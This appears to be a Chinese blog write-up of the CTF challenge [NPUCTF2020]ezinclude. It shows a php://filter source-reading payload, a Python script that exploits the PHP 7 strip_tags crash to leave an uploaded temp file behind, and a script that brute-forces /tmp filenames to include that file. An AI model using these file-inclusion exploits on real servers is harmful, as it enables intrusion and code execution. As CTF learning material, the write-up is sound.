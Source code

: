 ```yaml
---

title: 日常练习41——php临时文件包含

date: 2021-08-24 19:14:58

tags: 练习

categories: test91

---
```


# [NPUCTF2020]ezinclude  

这道题有一个新的关于文件包含的知识点，所以记录一下。  

打开题目发现密码和用户名错误，f12可以看到提示。  

[![](https://pic.imgdb.cn/item/6124d57844eaada739921561.png)](https://pic.imgdb.cn/item/6124d57844eaada739921561.png)   

说是让md5加密后的用户名要等于密码才行，那么接下来就抓包看看更多信息。  

经过测试可以发现我们输入不同的name值后，在响应包中的Hash值会变，说明它将name编码后赋给了hash值，应该是md5哈希长度拓展攻击，我们直接把响应包里的hash值拿来就可以了。  

[![](https://pic.imgdb.cn/item/6124d6b344eaada73994dae9.png)](https://pic.imgdb.cn/item/6124d6b344eaada73994dae9.png)  

可以看到给出了下一个页面。  

[![](https://pic.imgdb.cn/item/6124d77244eaada73996e2ee.png)](https://pic.imgdb.cn/item/6124d77244eaada73996e2ee.png)  

但是这个页面直接打开是不行的，需要抓包拦截一下：  

[![](https://pic.imgdb.cn/item/6124d81344eaada739986c80.png)](https://pic.imgdb.cn/item/6124d81344eaada739986c80.png)  

可以看到是一个文件包含题目，但是这道题和之前做过的文件包含还是不同的，需要用到新的知识点。  

我们读取一下源码：  

	/flflflflag.php?file=php://filter/convert.base64-encode/resource=flflflflag.php  

得到源码如下：  

	<html>
	<head>
	<script language="javascript" type="text/javascript">
	           window.location.href="404.html";
	</script>
	<title>this_is_not_fl4g_and_出题人_wants_girlfriend</title>
	</head>
	<>
	<body>
	<?php
	$file=$_GET['file'];
	if(preg_match('/data|input|zip/is',$file)){
		die('nonono');
	}
	@include($file);
	echo 'include($_GET["file"])';
	?>
	</body>
	</html>  

可以看到它过滤了伪协议并且没有给我们说明flag文件，很明显是不想让我们用php伪协议来做。  

我们用dirsearch可以扫描到一个dir.php页面。这个页面可以看到/tmp下所有文件。  

[![](https://pic.imgdb.cn/item/6124d94f44eaada7399bdc30.png)](https://pic.imgdb.cn/item/6124d94f44eaada7399bdc30.png)  

这里就要用到这个新知识点了——php临时包含文件。

这是php7.0的一个bug，可以在php7版本适用，具体原理比较简单：  

	使用php://filter/string.strip_tags导致php崩溃清空堆栈重启，如果在同时上传了一个文件，那么这个tmp file就会一直留在tmp目录，再进行文件名爆破就可以getshell  

这个就是临时文件包含的原理，这道题目的页面明显是无法打开的，我们就从phpinfo页面下手，而它直接给出了/tmp页面，所以说我们也不必爆破生成的临时文件名，直接上传临时文件就可以了。  

这里上传文件要用脚本：  

	import requests
	from io import BytesIO
	 
	payload = "<?php phpinfo()?>"
	file_data = {
	    'file': BytesIO(payload.encode())
	}
	url = "http://7c1ec491-0b58-4130-ac74-4f967eed6c85.node4.buuoj.cn:81/flflflflag.php?"\
	      +"file=php://filter/string.strip_tags/resource=/etc/passwd"
	r = requests.post(url=url, files=file_data, allow_redirects=False)
  

[![](https://pic.imgdb.cn/item/6124f42c44eaada739da1015.png)](https://pic.imgdb.cn/item/6124f42c44eaada739da1015.png)  

上传完后再次查看dir.php就可以看到我们的临时文件了，然后访问这个文件即可。注意直接访问是看不到的，所以我们需要用../来逐层访问.   

在phpinfo页面得到flag。  

[![](https://pic.imgdb.cn/item/6124f4c344eaada739db726e.png)](https://pic.imgdb.cn/item/6124f4c344eaada739db726e.png)  

# 小结  

这道题目考察了一个新的php文件包含的知识点，关于临时文件上传的bug，这个bug的适用范围在php7.0，php5是没法利用的，而这道题也省略了爆破临时文件名这一环节，减少了脚本编写，算是简化了题目难度。下面也会附上爆破文件名的脚本和相关讲解。算是一个新的积累。  

[php文件包含之临时文件上传](https://www.cnblogs.com/tr1ple/p/11301743.html)  


## 文件名爆破脚本

	#!/usr/bin/env python
	# -*- coding: utf-8 -*-
	
	import requests
	import string
	
	charset = string.digits + string.letters
	
	host = "10.99.99.16"
	port = 80
	base_url = "http://%s:%d" % (host, port)
	
	
	def brute_force_tmp_files():
	    for i in charset:
	        for j in charset:
	            for k in charset:
	                for l in charset:
	                    for m in charset:
	                        for n in charset:
	                            filename = i + j + k + l + m + n
	                            url = "%s/index.php?function=extract&file=/tmp/php%s" % (base_url, filename) #url根据实际情况改下参数就行
	                            print url
	                            try:
	                                response = requests.get(url)
	                                if 'wwwwwwwwwwwwww' in response.content: #可以利用burp 多线程上传文件  
	                                    print "[+] Include success!"
	                                    return True
	                            except Exception as e:
	                                print e
	    return False
	
	
	def main():
	    brute_force_tmp_files()
	
	
	if __name__ == "__main__":
	    main()
